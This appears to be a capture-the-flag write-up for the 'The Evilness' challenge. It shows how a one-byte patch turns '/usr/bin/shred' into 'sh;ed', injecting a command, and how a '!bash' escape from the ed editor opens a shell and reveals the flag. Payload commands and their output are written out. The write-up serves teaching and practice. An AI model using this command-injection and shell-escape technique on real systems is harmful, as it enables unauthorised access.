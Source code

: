 # The Evilness
Misc - 195 points

## Challenge 

> Ready for something ridiculously difficult?

> nc ctf.pwn.sg 4020


## Solution

Part 1 of the solution is knowing that we can use the `ed` text editor

	/usr/bin/shred

Replace `r` at position 11 with a `;` (0x3b)

	/usr/bin/sh;ed

The payload

	$ printf "11\n3b\n" | nc ctf.pwn.sg 4020
	Here comes the shredder! (/usr/bin/shred /tmp/cartoon-OjdpEr.dat)
	sh: 1: /usr/bin/sh: not found
	Newline appended
	62

---

#### Solved after CTF

I did not manage to solve it during the CTF.

	$ (printf "11\n3b\n"; cat) | nc ctf.pwn.sg 4020

	Here comes the shredder! (/usr/bin/shred /tmp/cartoon-qa1DtW.dat)
	sh: 1: /usr/bin/sh: not found
	Newline appended
	62

By entering a dot, we get the following message.

	.
	LOL YOU THOUGHT THIS WOULD BE SO EASY? GET A SHELL YOU DWEEB.

Hence, part 2 of the solution is knowing that the shell can be launched from ed.

	!bash
	ls
		flag
		flag.py
		requirements.txt
		theevilness.py
	cat flag
		CrossCTF{it5_th3_r34ln3ss_th3_r3alness}
	
## Flag

	CrossCTF{it5_th3_r34ln3ss_th3_r3alness}